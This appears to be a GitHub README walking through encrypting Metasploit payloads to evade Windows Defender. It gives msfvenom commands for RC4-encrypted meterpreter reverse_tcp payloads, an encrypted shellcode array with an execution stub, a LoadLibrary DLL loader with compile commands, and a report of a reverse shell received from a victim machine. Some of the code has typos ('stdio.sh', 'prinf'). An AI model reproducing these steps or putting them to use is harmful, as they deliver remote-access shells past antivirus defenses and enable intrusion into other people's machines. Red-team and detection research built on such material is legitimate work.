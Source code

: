 # metaploit-encrypted-payloads 
This repo documents encrypting metasploit payloads for Windows Defender evasion. This was adapted from the blog post [here](https://blog.rapid7.com/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/).

## Background
Windows defender uses two approaches, Client ML and Cloud ML. When Client ML fails to make a determination, it sends it to Cloud ML and that usually means we are screwed. Additionally, the creation of AMSI allows programs to scan data buffers in Windows Defender via API. PowerShell was modified to do this with `-Command` arguments which makes it much harder to abuse PowerShell now.

### Client ML
* Light Weight
* Hash Signatures
* Behavior Detection
* Heuristics
### Cloud ML
* Decision tree model
* Automatic Sample Submission (Configurable)
* Sample Based Analysis
* Dentenation Based Analysis

## Step 1 - Shell Code Encryption
Encryption of the shellcode a rest, generally will prevent signature based static analysis by windows defender. In my testing, I discovered that it still found encrypted meterpreter payloads indicating there is some metadata somewhere non-encrypted in the payload which is being used as a static signature. Reverse shells were found to bypass.
### Encryption Support
* AES256-CBC
* RC4
* XOR
* Base64
### Generate Encrypted Payload
```bash
# output as C to write custom loaded
ruby ./msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 --encrypt rc4 --encrypt-key thisisakey -f c

# output as exe for ease of use
ruby ./msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 --encrypt rc4 --encrypt-key thisisakey -f exe -o encrypted.exe
```
The above payloads, once decrypted can still be detected at runtime.
## Step 2 - Seperation
Seperate the loaders and stagers. Using `windows/shell_reverse_tcp` puts stage into the loader's code so it is more likely to be detected. Always use a stager, e.g. `windows/shell/reverse_tcp` so the loader just launches the stager.
### Example With Manual Loader
```C
unsigned char shellcode[] = 
"\x69\x77\xb9\xb0\x11\xec\xc7\x98\x4d\x48\x80\xb6\x57\x51\xb6"
"\x93\x5c\x0e\x42\x18\xc1\x17\x8e\xcc\xd4\x9b\xc7\xba\xbe\x81"
"\x74\xa5\xd1\xd4\xa1\x5f\x5e\xf4\x30\x59\x68\x4b\xd2\x91\x47"
"\xb7\x90\x51\xbb\x04\x90\x7a\x04\xcd\xe2\x53\xdc\x48\x53\x11"
"\x95\x7b\xdd\xc3\x86\x81\x38\x62\xaf\x75\xd6\x29\xe6\xb7\xce"
"\x88\x04\xc3\xfe\xef\xd4\x69\xd7\x71\x7d\x52\x77\x3d\x48\x2b"
"\x34\xeb\xa0\xe6\x51\x51\xe6\x92\xda\x31\xc6\x18\x63\xb7\x7c"
"\xd3\x8f\x6a\xe7\x06\x91\x06\x95\xaf\x68\xf1\x94\x02\xea\x35"
"\xd5\x84\x09\x7d\x77\x0f\xd4\xd0\x4e\x2b\x0a\x66\xc4\x07\xb4"
"\x65\xe9\xc7\xc7\x69\x4f\x63\x7f\x5f\x7a\x73\x49\x9c\xf9\xc5"
"\x75\xab\xc5\x8d\x95\x35\x57\x56\xbd\xb8\xa7\x25\x94\x25\x82"
"\x89\x1b\xcd\xe2\xdf\xae\xa5\x69\xc9\x05\x64\xb9\x49\x81\x09"
"\xc6\x0c\x53\xc9\x98\x42\x94\x11\x64\x04\xb6\x9c\xb3\x32\xd7"
"\xb5\x25\x58\xd3\xa6\x2a\x56\xf7\x47\x43\x60\x70\xd8\x96\xfc"
"\xbf\xfe\xc2\x1d\x5b\xc5\x2f\xc6\xa0\x4d\xfc\x3d\x54\xa0\xbe"
"\x18\xbe\x83\x87\x42\x0a\x75\x97\x09\x8a\xe8\xc2\x4d\xef\x00"
"\x71\x59\xad\x5f\xef\x55\x67\x9c\xaf\x49\xf4\xe4\x3f\x7e\xe1"
"\x30\xdc\x82\xf4\x1d\xbb\x0a\x8d\x8f\xf1\xe3\x03\xd8\x34\xa6"
"\xf2\xc6\x9c\x7b\xe1\x62\xa5\xd7\x0e\xe1\x7b\xe7\x8d\x18\x3d"
"\x07\xd7\xbd\x06\xac\xd3\x37\xf5\x97\xdc\x8b\x88\xb8\x89\xc3"
"\x09\xf7\xe0\x75\x14\x8d\x01\x29\xb2\xe5\x7f\x30\xef\x15\x5e"
"\xc5\xe1\xbc\xcb\x47\x41\x1e\xde\xab\xd1\xde\xae\x33\x29\xd1"
"\x0e\xb2\x25\x80\x9e\xa1\x58\x6f\x08\x7a\xa6";

// funcptr prototype
int (*func)();

// funcptr assignment to shellcode char array
func = (int (*)()) shellcode;

// this line causes the issue with AV - The execution
(int)(*func)();
```
The above code loads the stager shell code. In testing, it was discovered this technique is detected as malicious behavior by Defender. Likely, it sees the function pointer indirection and casting as suspicious. To get around, dynamically load a DLL.
### DLL Loading Example
Using `LoadLibrary` will seem less suspicious it seems and will be allowed by Defender.
#### Shell Code
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.220.129 LPORT=443 --encrypt rc4 --encrypt-key thisisakey -f dll -o shellcode.dll
```

#### Custom Loader
```C++
#include <stdio.sh>
#include <windows.h>

int main(void)
{
	HMODULE hMod = LoadLibrary("shellcode.dll");
	if( hMod == nullptr )
	{
		prinf("Failed to load DLL\n");
	}
	
	return 0;
}
```
Compile
```bash
i686-w64-mingw32-g++ loader.cpp -o loader.exe -static-libgcc -static-libstdc++
```

### Results
These two files, `loader.exe` and `shellcode.dll` where downloaded on the victim Windows machine and were launched via the commandline and a successful reverse shell was received in `metasploit`. These techniques seem good enough for now to bypass Windows defender.

## Revisiting Meterpreter
It was discovered using `shikata_ga_nai` encoding, the DLL could be landed on the machine without a static match. However, on execution, the meterpreter behavior was detected and blocked as it tried to to download the stage from msfconsole. Creating a stageless payload with encryption and encoding was statically flaged by Defender as well.

I investigated the methods described below for meterpreter and Defender caught both statically.

[Windows Defender Bypassing For Meterpreter](https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/)

[Evading Antivirus with Better Meterpreter Payloads](https://securityboulevard.com/2020/02/evading-antivirus-with-better-meterpreter-payloads/)
